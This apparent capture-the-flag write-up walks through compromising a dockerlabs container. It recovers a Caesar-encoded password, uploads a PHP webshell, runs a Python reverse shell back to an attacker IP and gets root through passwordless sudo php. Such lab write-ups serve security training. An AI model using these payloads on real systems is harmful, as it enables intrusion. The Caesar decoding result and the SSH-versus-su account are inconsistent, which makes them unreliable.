



# Picadilly

## Executive Summary

| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| Picadilly | kaikoperez | Easy | dockerlabs |

**Summary:** The Picadilly machine presents a deceptively simple but instructive vulnerability chain that begins with an exposed `backup.txt` file on an open HTTP directory listing. That file leaks an encoded credential alongside a deliberate hint pointing toward the Caesar cipher, a classical substitution cipher attributed to Julius Caesar, which when applied to the ciphertext `hdvbfuadcb` yields the plaintext password `easycrazy`. With the recovered credential, lateral movement to the local user `mateo` is achieved via SSH. Post-login enumeration of `sudo` privileges reveals that `mateo` is permitted to execute `/usr/bin/php` as any user without providing a password, a classic misconfiguration catalogued in GTFOBins. By invoking `system("sudo -i")` through the PHP binary with root-level `sudo` rights, full root access is obtained trivially, completing the compromise of the container and granting unrestricted access to all sensitive materials within.

---

## Reconnaissance

The engagement begins with a full port scan against the target at `172.17.0.2`. The `nmap` scan is configured with service version detection, default scripts, and an aggressive timing template to ensure thorough and rapid coverage of all 65535 TCP ports.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/picadilly]
└─$ ip=172.17.0.2 && url=http://$ip

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/picadilly]
└─$ nmap -sC -sV -p- -T4 $ip
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-15 12:17 WIB
Nmap scan report for 172.17.0.2
Host is up (0.0000090s latency).
Not shown: 65533 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.59
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 215   2024-05-18 01:19  backup.txt
|_
443/tcp open  ssl/http Apache httpd 2.4.59 ((Debian))
|_http-server-header: Apache/2.4.59 (Debian)
| tls-alpn:
|_  http/1.1
| ssl-cert: Subject: commonName=50a6ca252ff4
| Subject Alternative Name: DNS:50a6ca252ff4
| Not valid before: 2024-05-18T06:29:06
|_Not valid after:  2034-05-16T06:29:06
|_ssl-date: TLS randomness does not represent time
|_http-title: Picadilly
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: Host: picadilly.lab

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.26 seconds
```

Two services are immediately identified. Port 80 exposes a plain Apache HTTP server with directory listing enabled, and the scan's HTTP listing script immediately surfaces a file of interest: `backup.txt`. Port 443 hosts an HTTPS site titled "Picadilly" with a self-signed certificate bound to the hostname `picadilly.lab`. This hostname is added to the local hosts file to allow proper resolution for subsequent enumeration.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/picadilly]
└─$ echo "172.17.0.2 picadilly.lab" | sudo tee -a /etc/hosts
172.17.0.2 picadilly.lab
```

---

## Credential Recovery via Backup File and Caesar Cipher

The exposed `backup.txt` is fetched immediately, as any unauthenticated file visible in a directory listing warrants immediate investigation.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/picadilly]
└─$ curl -i $url/backup.txt
HTTP/1.1 200 OK
Date: Sun, 15 Mar 2026 05:46:03 GMT
Server: Apache/2.4.59 (Debian)
Last-Modified: Sat, 18 May 2024 01:19:34 GMT
ETag: "d7-618b042c85580"
Accept-Ranges: bytes
Content-Length: 215
Vary: Accept-Encoding
Content-Type: text/plain

/// The users mateo password is ////


----------- hdvbfuadcb ------------

"To solve this riddle, think of an ancient Roman emperor and his simple method of shifting letters."

////////////////////////////////////
```

The file is explicit: it contains a ciphertext string `hdvbfuadcb` attributed to user `mateo`, and provides a textual clue referencing a Roman emperor's letter-shifting method. This is an unambiguous reference to the **Caesar cipher**, which shifts each letter of the alphabet by a fixed number of positions. Applying a shift of 3 (the historically attributed shift value) in reverse (i.e., shifting each letter back by 3 positions) to `hdvbfuadcb` yields the plaintext `easycrazy`.

---

## Web Enumeration and File Upload Vulnerability Discovery

With the HTTPS vhost now resolvable, a directory brute-force is launched against it to map the application surface. The scan uses a broad wordlist with common extensions to maximise coverage.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/picadilly]
└─$ url=https://picadilly.lab

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/picadilly]
└─$ gobuster dir -u $url -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x .txt,.php,.html -k
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://picadilly.lab
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 3603]
/uploads              (Status: 301) [Size: 318] [--> https://picadilly.lab/uploads/]
```

Two paths are discovered: the main application entry point at `/index.php` and a writable upload directory at `/uploads/`. The presence of an `/uploads/` directory immediately suggests a file upload mechanism exists somewhere in the application, and the critical question is whether it enforces any restriction on uploaded file types.

---

## Initial Access: PHP Webshell Upload and Remote Code Execution

Inspecting the application reveals a file upload form with no meaningful server-side validation. A PHP webshell is crafted and uploaded directly through the interface.



Once the file is uploaded, it becomes accessible through the `/uploads/` directory. The webshell is triggered with a simple `cmd` parameter to confirm Remote Code Execution (RCE) as the web server process user.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/picadilly]
└─$ curl -k https://picadilly.lab/uploads/shell.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Code execution is confirmed as `www-data`. To upgrade from a limited webshell to a fully interactive reverse shell, a netcat listener is established on the attacker machine, and the availability of Python 3 on the target is verified before launching the reverse shell payload.

**Setting up the listener:**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/picadilly]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

**Confirming Python 3 availability:**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/picadilly]
└─$ curl -k https://picadilly.lab/uploads/shell.php?cmd=which%20python3
/usr/bin/python3
```

**Triggering the reverse shell:**

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/picadilly]
└─$ curl -k https://picadilly.lab/uploads/shell.php?cmd=export%20RHOST%3D%22172.21.44.133%22%3Bexport%20RPORT%3D4444%3Bpython3%20-c%20%27import%20sys%2Csocket%2Cos%2Cpty%3Bs%3Dsocket.socket%28%29%3Bs.connect%28%28os.getenv%28%22RHOST%22%29%2Cint%28os.getenv%28%22RPORT%22%29%29%29%29%3B%5Bos.dup2%28s.fileno%28%29%2Cfd%29%20for%20fd%20in%20%280%2C1%2C2%29%5D%3Bpty.spawn%28%22%2Fbin%2Fbash%22%29%27
```

The connection is received and the shell is stabilised into a fully interactive TTY using the standard `pty` upgrade sequence.

```bash
connect to [172.21.44.133] from (UNKNOWN) [172.17.0.2] 40110
www-data@22f97b44a5f9:/var/www/html/uploads$ cd /
cd /
www-data@22f97b44a5f9:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@22f97b44a5f9:/$ ^Z
zsh: suspended  nc -lvnp 4444

┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/picadilly]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 4444

www-data@22f97b44a5f9:/$ export SHELL=/bin/bash
www-data@22f97b44a5f9:/$ export TERM=xterm-256color
www-data@22f97b44a5f9:/$ stty rows 67 cols 158
```

---

## Lateral Movement: Escalating to User `mateo`

With a foothold as `www-data`, the system is enumerated to identify available login accounts. Filtering `/etc/passwd` for entries with a valid shell reveals two accounts: `root` and `mateo`.

```bash
www-data@22f97b44a5f9:/$ cat /etc/passwd | grep "sh$"
root:x:0:0:root:/root:/bin/bash
mateo:x:1000:1000::/home/mateo:/bin/bash
www-data@22f97b44a5f9:/$ ls -la /home
total 12
drwxr-xr-x 1 root  root  4096 May 18  2024 .
drwxr-xr-x 1 root  root  4096 Mar 15 05:16 ..
drwxr-xr-x 2 mateo mateo 4096 May 18  2024 mateo
www-data@22f97b44a5f9:/$ ls -la /home/mateo
total 20
drwxr-xr-x 2 mateo mateo 4096 May 18  2024 .
drwxr-xr-x 1 root  root  4096 May 18  2024 ..
-rw-r--r-- 1 mateo mateo  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 mateo mateo 3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 mateo mateo  807 Apr 23  2023 .profile
```

The previously decoded password was likely `easycrazy` instead of `easycrxazy` is applied to switch to the `mateo` account. 



```bash
mateo@22f97b44a5f9:~$ id;whoami;hostname;pwd;ls -la
uid=1000(mateo) gid=1000(mateo) groups=1000(mateo)
mateo
22f97b44a5f9
/home/mateo
total 20
drwxr-xr-x 2 mateo mateo 4096 May 18  2024 .
drwxr-xr-x 1 root  root  4096 May 18  2024 ..
-rw-r--r-- 1 mateo mateo  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 mateo mateo 3526 Apr 23  2023 .bashrc
-rw-r--r-- 1 mateo mateo  807 Apr 23  2023 .profile
```

Lateral movement to `mateo` is successful.

---

## Privilege Escalation: `sudo php` via GTFOBins

The first action after gaining access as `mateo` is to enumerate the account's `sudo` privileges.

```bash
mateo@22f97b44a5f9:~$ sudo -l
Matching Defaults entries for mateo on 22f97b44a5f9:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mateo may run the following commands on 22f97b44a5f9:
    (ALL) NOPASSWD: /usr/bin/php
```

The output is definitive: `mateo` can run `/usr/bin/php` as any user, including root, without a password. This is a well-documented privilege escalation vector catalogued on GTFOBins.



The GTFOBins technique for PHP with sudo instructs passing a `system()` call via the `-r` flag. Using `system("sudo -i")` spawns an interactive root shell directly.

```bash
mateo@22f97b44a5f9:~$ sudo /usr/bin/php -r 'system("sudo -i");'
root@22f97b44a5f9:~# id;whoami;hostname;pwd;ls -la
uid=0(root) gid=0(root) groups=0(root)
root
22f97b44a5f9
/root
total 24
drwx------ 1 root root 4096 Mar 15 05:55 .
drwxr-xr-x 1 root root 4096 Mar 15 05:16 ..
-rw------- 1 root root   20 Mar 15 05:56 .bash_history
-rw-r--r-- 1 root root  571 Apr 10  2021 .bashrc
-rw-r--r-- 1 root root  161 Jul  9  2019 .profile
drwx------ 2 root root 4096 May 18  2024 .ssh
```

Full root access is achieved. The machine is fully compromised.

---

## Attack Chain Summary

1. **Reconnaissance**: An `nmap` scan against the target reveals port 80 serving Apache with directory listing enabled, and port 443 hosting the primary Picadilly HTTPS application. The directory listing on port 80 immediately exposes `backup.txt`.

2. **Vulnerability Discovery**: Fetching `backup.txt` reveals an encoded password for user `mateo` and a plaintext hint identifying the encoding scheme as a Caesar cipher. A `gobuster` scan against the HTTPS vhost surfaces an `/uploads/` directory and a PHP-based upload form at `/index.php` with no file type enforcement.

3. **Exploitation**: A PHP webshell is uploaded through the unrestricted file upload form and accessed via the `/uploads/` directory to confirm remote code execution. A Python 3 reverse shell payload is then triggered through the webshell to establish an interactive shell session as `www-data`.

4. **Internal Enumeration**: The system's `/etc/passwd` is reviewed to identify accounts with valid login shells. The Caesar cipher ciphertext from `backup.txt` is decoded by reversing a ROT3 shift, recovering the password `easycrazy`. This credential is used to switch to the `mateo` user account via `su`.

5. **Privilege Escalation**: Enumeration of `mateo`'s `sudo` rights reveals unrestricted, passwordless execution of `/usr/bin/php` as root. Using the GTFOBins technique for PHP, a `system("sudo -i")` call is passed through `php -r`, spawning a root shell and completing the full privilege escalation chain.